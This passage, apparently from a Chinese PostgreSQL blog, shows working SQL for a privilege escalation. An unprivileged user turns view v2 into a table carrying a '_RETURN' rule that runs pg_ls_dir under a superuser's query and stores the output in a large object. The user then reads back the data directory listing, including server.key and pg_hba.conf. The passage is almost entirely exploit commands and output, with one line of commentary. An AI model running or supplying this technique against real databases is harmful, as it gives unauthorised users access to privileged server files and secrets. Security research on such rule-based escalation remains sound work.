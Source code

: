 ```  
CONTEXT:  SQL statement "insert into v3 select pg_ls_dir('.')"  
PL/pgSQL function f1() line 4 at SQL statement  
```  
  
换种方法，用大对象操作，把数据搞进来。  
  
```  
postgres=> drop view v2;  
DROP VIEW  
postgres=> create table v2(id int);  
CREATE TABLE  
  
postgres=> select lo_create(1);  
 lo_create   
-----------  
         1  
(1 row)  
   
postgres=> create rule "_RETURN" as on select to v2 do instead select 1 as id from (select lowrite(lo_open(1,131072), con::bytea) from (select string_agg(c,'  |  ') as con from pg_ls_dir('.') as t(c)) t)t;;  
CREATE RULE  
  
postgres=> \c postgres postgres  
You are now connected to database "postgres" as user "postgres".  
postgres=# select * from v2;  
 id   
----  
  1  
(1 row)  
  
  
postgres=# \c postgres digoal  
postgres=> select convert_from(loread(lo_open(1,262144),1000),'utf8');  
                                                 convert_from                                                                                                                                                                                  
                                                                                                                
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------  
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------  
--------------------------------------------------------------------------------------------------------------  
 pg_xlog  |  pg_multixact  |  base  |  .s.PGSQL.1922.lock  |  recovery.done  |  pg_log  |  pg_logical  |  pg_subtrans  |  backup_label.old  |  pg_stat_tmp  |  PG_VERSION  |  postmaster.opts  |  tsearch_data  |  pg_stat  |  pg_serial  |    
VITESSE_LICENSE_KEY  |  pg_notify  |  postgresql.conf  |  pg_replslot  |  pg_tblspc  |  pg_ident.conf  |  server.crt  |  pg_dynshmem  |  pg_twophase  |  global  |  server.key  |  .s.PGSQL.1922  |  .s.PGSQL.1921.lock  |  .s.PGSQL.1921  |   
 postmaster.pid  |  pg_hba.conf  |  pg_worker_list.conf  |  pg_clog  |  postgresql.auto.conf  |  pg_snapshots  
(1 row)  
```  
  